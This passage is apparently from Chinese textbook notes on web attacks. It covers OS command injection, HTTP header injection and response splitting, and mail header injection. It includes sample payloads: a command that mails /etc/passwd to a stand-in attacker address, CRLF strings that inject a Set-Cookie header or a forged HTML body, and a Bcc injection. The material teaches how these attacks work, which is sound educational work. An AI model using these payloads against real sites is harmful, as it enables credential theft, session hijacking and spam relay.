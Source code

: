 攻击者的输入值中含有分号（;）。这个符号在 OS 命令中，会被解析为分隔多个执行命令的标记。 

可见，sendmail 命令执行被分隔后，接下去就会执行 cat/etc/passwd | mail hack@example.jp 这样的命令了。结果，含有Linux 账户信息 /etc/passwd 的文件，就以邮件形式发送给了 hack@example.jp。 

- ###### HTTP首部注入

攻击者通过在响应首部字段内插入换行，添加任意响应首部或主体的一种攻击。

向首部主体内添加内容的攻击称为 HTTP 响应截断攻击（HTTP Response Splitting Attack）。 

如下所示，Web 应用有时会把从外部接收到的数值，赋给响应首部字段 Location 和 Set-Cookie。 

> Location: http://www.example.com/a.cgi?q=**12345**
>
> Set-Cookie: UID=**12345**
>
> ＊12345就是插入值

- HTTP 首部注入攻击有可能会造成以下一些影响。
  - 设置任何 **Cookie** 信息
  - 重定向至任意 **URL**
  - 显示任意的主体（**HTTP** 响应截断攻击） 

攻击者以下面的内容替代之前的类别 ID 后发送请求。 

> 101**%0D%0ASet-Cookie:+SID=123456789**

其中，%0D%0A 代表 HTTP 报文中的换行符，紧接着的是可强制将攻击者网站（http://hackr.jp/）的会话 ID 设置成 SID=123456789 的 Set-Cookie 首部字段。发送该请求之后，假设结果返回以下响应。

> Location: http://example.com/?cat=101（%0D%0A ：换行符）Set-Cookie: SID=123456789 

此刻，首部字段 Set-Cookie 已生效，因此攻击者可指定修改任意的 Cookie 信息。通过和会话固定攻击（攻击者可使用指定的会话 ID）攻击组合，攻击者可伪装成用户。

- HTTP 响应截断攻击是用在 HTTP 首部注入的一种攻击。攻击顺序相同，但是要将两个 %0D%0A%0D%0A 并排插入字符串后发送。利用这两个连续的换行就可作出 HTTP 首部与主体分隔所需的空行了，这样就能显示伪造的主体，达到攻击目的。这样的攻击叫做 HTTP 响应截断攻击。

> %0D%0A%0D%0A<HTML><HEAD><TITLE>之后，想要显示的网页内容 <!--

在可能进行 HTTP 首部注入的环节，通过发送上面的字符串，返回结果得到以下这种响应。 

> Set-Cookie: UID=（%0D%0A ：换行符）
>
> （%0D%0A ：换行符）
>
> <HTML><HEAD><TITLE>之后，想要显示的网页内容 <!--（原来页面对应的首部字段和主体部分全视为注释） 

利用这个攻击，已触发陷阱的用户浏览器会显示伪造的 Web 页面，再让用户输入自己的个人信息等，可达到和跨站脚本攻击相同的效果。 

- 另外，滥用 HTTP/1.1 中汇集多响应返回功能，会导致缓存服务器对任意内容进行缓存操作。这种攻击称为缓存污染。使用该缓 存服务器的用户，在浏览遭受攻击的网站时，会不断地浏览被替换掉的 Web 网页。 

- ###### 邮件首部注入

邮件首部注入（Mail Header Injection）是指 Web 应用中的邮件发送功能，攻击者通过向邮件首部 To 或 Subject 内任意添加非法内容发起的攻击。利用存在安全漏洞的 Web 网站，可对任意邮件地址发送广告邮件或病毒邮件。 

攻击者将以下数据作为邮件地址发起请求。 

> bob@hackr.jp**%0D%0ABcc: user@example.com** 
